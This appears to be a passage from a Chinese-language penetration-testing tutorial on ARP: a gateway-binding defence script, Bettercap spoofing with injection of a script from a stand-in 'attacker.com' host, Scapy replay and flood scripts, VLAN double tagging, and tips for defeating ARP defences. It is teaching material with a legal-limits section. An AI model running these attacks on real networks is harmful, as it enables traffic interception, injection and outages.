GATEWAY_MAC="aa:bb:cc:dd:ee:ff"  # 网关的真实MAC地址
INTERFACE="eth0"
CHECK_INTERVAL=5                  # 检查间隔（秒）

echo "[*] ARP防护已启动"
echo "[*] 网关: $GATEWAY_IP → $GATEWAY_MAC"
echo "[*] 检查间隔: ${CHECK_INTERVAL}秒"

# 绑定初始ARP
ip neigh replace $GATEWAY_IP lladdr $GATEWAY_MAC nud permanent dev $INTERFACE

while true; do
    # 检查当前ARP缓存中的网关MAC
    CURRENT_MAC=$(ip neigh show $GATEWAY_IP dev $INTERFACE | awk '{print $5}')
    
    if [ "$CURRENT_MAC" != "$GATEWAY_MAC" ] && [ "$CURRENT_MAC" != "PERMANENT" ]; then
        echo "[!] $(date '+%H:%M:%S') ARP缓存被篡改！"
        echo "    期望MAC: $GATEWAY_MAC"
        echo "    当前MAC: $CURRENT_MAC"
        echo "[*] 正在恢复..."
        ip neigh replace $GATEWAY_IP lladdr $GATEWAY_MAC nud permanent dev $INTERFACE
        echo "[+] ARP缓存已恢复"
    fi
    
    sleep $CHECK_INTERVAL
done
```

### 4.6 ARP在渗透测试中的应用

#### 4.6.1 ARP欺骗 + 中间人攻击完整流程

ARP欺骗通常不是最终目的，而是作为中间人位置的手段，配合其他攻击技术使用：



**实战示例：ARP欺骗 + HTTP注入**

```bash
# 使用Bettercap进行ARP欺骗 + HTTP注入
sudo bettercap -iface eth0

# 在Bettercap交互界面中：
> set arp.spoof.targets 192.168.1.100
> set arp.spoof.fullduplex true
> arp.spoof on

# 启用HTTP注入（在所有HTTP页面中注入自定义JS）
> set http.proxy.script /path/to/inject.js
> http.proxy on

# 或使用内置的inject模块
> set http.proxy.inject true
> set http.proxy.inject.types text/html
> set http.proxy.data "<script src='http://attacker.com/payload.js'></script>"
```

#### 4.6.2 ARP扫描在信息收集中的应用

ARP扫描是内网信息收集的第一步，其输出可以指导后续攻击：

```bash
# 第1步：ARP扫描发现活跃主机
sudo arp-scan --localnet > arp_results.txt

# 第2步：解析结果，提取IP和MAC
awk '/^[0-9]/ {print $1, $2}' arp_results.txt > targets.txt

# 第3步：通过OUI厂商信息判断设备类型
# 常见的OUI前缀及其含义：
# 00:50:56 / 00:0c:29 / 00:05:69 → VMware虚拟机
# 08:00:27 → VirtualBox虚拟机
# b8:27:eb / dc:a6:32 → Raspberry Pi
# 00:1a:2b / 00:1b:44 → 交换机/路由器厂商
# Apple设备 → 以特定前缀开头（如 3c:22:fb, a4:83:e7）

# 第4步：识别网关和关键设备
ip route | grep default | awk '{print $3}'  # 网关IP
arp -a | grep "$(ip route | grep default | awk '{print $3}')"  # 网关MAC

# 第5步：交叉验证——对比ARP缓存与ARP扫描结果
# 如果ARP缓存中有扫描结果中没有的设备，可能是静态配置或虚拟接口
```

#### 4.6.3 使用Scapy进行ARP重放攻击

ARP重放攻击记录真实的ARP通信并重放，用于测试网络设备对ARP洪泛的耐受能力：

```python
#!/usr/bin/env python3
"""ARP流量录制与重放（用于压力测试）"""
from scapy.all import sniff, sendp, wrpcap, rdpcap
import sys

def capture_arp(iface="eth0", count=100, output="arp_capture.pcap"):
    """录制ARP流量"""
    print(f"[*] 录制 {count} 个ARP包...")
    packets = sniff(filter="arp", iface=iface, count=count)
    wrpcap(output, packets)
    print(f"[+] 已保存到 {output}")

def replay_arp(pcap_file, iface="eth0", multiplier=1):
    """重放ARP流量"""
    packets = rdpcap(pcap_file)
    print(f"[*] 重放 {len(packets)} 个ARP包 (倍率: {multiplier}x)...")
    for _ in range(multiplier):
        for pkt in packets:
            sendp(pkt, iface=iface, verbose=False)
    print("[+] 重放完成")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 arp_replay.py capture|replay [args]")
        sys.exit(1)
    
    action = sys.argv[1]
    if action == "capture":
        capture_arp(count=int(sys.argv[2]) if len(sys.argv) > 2 else 100)
    elif action == "replay":
        replay_arp(sys.argv[2], multiplier=int(sys.argv[3]) if len(sys.argv) > 3 else 1)
```

### 4.7 常见误区与避坑指南

#### 4.7.1 ARP欺骗常见失败原因

| 问题现象 | 根因分析 | 解决方案 |
|----------|----------|----------|
| 目标机断网 | 未开启IP转发 | `echo 1 > /proc/sys/net/ipv4/ip_forward` |
| 目标有防ARP欺骗软件 | 对方绑定了静态ARP或使用了arpwatch | 尝试先用Deauth+Evil Twin绕过 |
| 交换机启用了DAI | ARP包被交换机丢弃 | 需要物理接触或VLAN跳跃 |
| 目标在不同VLAN | ARP广播不能跨VLAN | 需要先进行VLAN跳跃攻击 |
| 始终只有单向通信 | 只毒化了一端 | 必须同时毒化目标和网关 |
| WiFi网络ARP欺骗无效 | 现代AP隔离了客户端之间的ARP | 使用Evil Twin AP代替 |
| ARP缓存很快就恢复 | 操作系统主动刷新ARP | 提高ARP欺骗包的发送频率（<1秒） |
| MAC地址被交换机端口安全拦截 | 端口限制了可学习的MAC数量 | 需要先获取端口安全的豁免 |

#### 4.7.2 ARP操作的常见错误

```bash
# 错误1：使用arp命令而非ip neigh
arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff
# 问题：arp命令在某些新版Linux上已被弃用
# 正确：ip neigh replace 192.168.1.1 lladdr aa:bb:cc:dd:ee:ff nud permanent dev eth0

# 错误2：ARP欺骗后忘记恢复
# 问题：攻击结束后ARP缓存仍然是错误的，可能导致目标或网关通信异常
# 正确：攻击停止前发送正确的ARP包恢复缓存（见4.4.5的restore函数）

# 错误3：忘记开启IP转发
# 问题：目标机的所有流量被攻击机丢弃，目标机断网
# 正确：在ARP欺骗前执行 echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# 错误4：在有线和WiFi双网卡环境下搞混接口
# 问题：ARP欺骗包发到了错误的接口
# 正确：ip link show 确认接口名称，使用 -i 参数指定正确接口

# 错误5：arp-scan不加sudo
# 问题：普通用户无法发送原始ARP包
# 正确：所有ARP相关工具都需要root权限或sudo
```

#### 4.7.3 ARP欺骗的法律与道德边界

ARP欺骗在以下场景中是合法的：
- **授权渗透测试**：有书面授权的安全评估
- **个人学习环境**：在自己的虚拟机/实验室中练习
- **网络故障诊断**：网络管理员在自己的网络中排查问题
- **安全研究**：有明确研究目的和合规审查

未经授权对他人网络进行ARP欺骗属于违法行为，在中国可能触犯《刑法》第285条（非法侵入计算机信息系统罪）或第286条（破坏计算机信息系统罪）。在任何实操前，确保你有合法的授权。

### 4.8 进阶技巧

#### 4.8.1 ARP欺骗 + VLAN跳跃

在交换机启用了VLAN但未正确配置的情况下，可以通过ARP配合VLAN跳跃攻击突破网络隔离：

```bash
# 双标签攻击（Double Tagging Attack）
# 外层标签：攻击者所在VLAN
# 内层标签：目标VLAN
# 交换机剥掉外层标签后，会将帧转发到内层标签指定的VLAN

# Scapy构造双标签帧
from scapy.all import Ether, Dot1Q, IP, ICMP

packet = (
    Ether(dst="ff:ff:ff:ff:ff:ff") /
    Dot1Q(vlan=1) /          # 外层标签（攻击者VLAN）
    Dot1Q(vlan=100) /        # 内层标签（目标VLAN）
    IP(dst="192.168.100.1") /
    ICMP()
)
```

注意：此攻击只能单向发送数据（因为响应会回到目标VLAN，攻击者收不到）。

#### 4.8.2 ARP洪泛攻击（ARP Flood）

ARP洪泛旨在耗尽交换机的ARP表或目标设备的处理能力：

```python
#!/usr/bin/env python3
"""ARP洪泛演示（压力测试用途）"""
from scapy.all import Ether, ARP, sendp
import random

def arp_flood(iface="eth0", count=1000):
    """发送大量随机源MAC的ARP请求"""
    for i in range(count):
        # 生成随机源MAC
        src_mac = ":".join([f"{random.randint(0,255):02x}" for _ in range(6)])
        # 生成随机源IP
        src_ip = f"192.168.1.{random.randint(1,254)}"
        
        packet = Ether(dst="ff:ff:ff:ff:ff:ff", src=src_mac) / ARP(
            op=1,                    # ARP请求
            hwsrc=src_mac,
            psrc=src_ip,
            pdst="192.168.1.1"       # 目标网关
        )
        sendp(packet, iface=iface, verbose=False)
        
        if (i + 1) % 100 == 0:
            print(f"\r[+] 已发送 {i+1}/{count} 个ARP包", end="", flush=True)

if __name__ == "__main__":
    arp_flood(count=1000)
```

ARP洪泛可以导致：
- 交换机ARP表溢出，退化为Hub模式（所有流量广播），实现被动嗅探
- 目标设备CPU升高，响应变慢
- DHCP地址耗尽

#### 4.8.3 跨子网ARP攻击

当攻击者与目标不在同一子网时，ARP欺骗无法直接使用。但可以通过以下方式间接实现：

1. **先攻击目标网关**：如果攻击者能访问目标子网的网关设备，在网关上执行ARP欺骗
2. **代理ARP利用**：如果路由器启用了proxy_arp，攻击者可以利用路由器转发ARP请求
3. **DHCP饥饿 + Rogue DHCP**：通过耗尽目标子网的DHCP地址池，然后架设虚假DHCP服务器，将网关指向攻击机

```bash
# 检查路由器是否启用了proxy_arp
cat /proc/sys/net/ipv4/conf/eth0/proxy_arp
# 1 = 已启用（可被利用）

# 利用proxy_arp进行跨子网ARP欺骗
# 攻击者向自己的网关发送ARP回复，声称目标子网的IP是攻击者的MAC
# 网关启用了proxy_arp后会代为响应
```

### 4.9 工具对比总结

| 工具 | 类型 | 主要功能 | 优势 | 劣势 |
|------|------|----------|------|------|
| arpspoof | 欺骗 | ARP欺骗 | 简单轻量，语法直观 | 功能单一，需手动管理IP转发 |
| Ettercap | 综合框架 | ARP欺骗+多种攻击 | 插件丰富，协议解析全面 | 较老，更新不频繁 |
| Bettercap | 综合框架 | ARP欺骗+WiFi+BLE | 现代化，API接口，脚本强 | 学习曲线较陡 |
| Scapy | 包构造 | 自定义ARP包 | 完全可控，灵活度最高 | 需要编程能力 |
| arp-scan | 扫描 | ARP主机发现 | 快速、准确、OUI识别 | 仅扫描，无攻击能力 |
| netdiscover | 扫描 | ARP主机发现+被动监听 | 支持被动模式 | 输出格式不如arp-scan |
| arping | 探测 | 单目标ARP ping | 轻量、验证MAC一致性 | 功能单一 |
| arpwatch | 监控 | ARP缓存变化告警 | 持续监控，告警机制 | 仅监控，不防御 |
| nmap | 扫描 | ARP主机发现+端口扫描 | 综合能力强 | ARP只是其功能之一 |

选择建议：
- **快速内网扫描** → arp-scan
- **简单ARP欺骗** → arpspoof
- **完整中间人攻击** → Bettercap
- **自定义需求** → Scapy
- **企业级防御** → DAI + DHCP Snooping + arpwatch
- **学习理解原理** → Scapy 手动构造
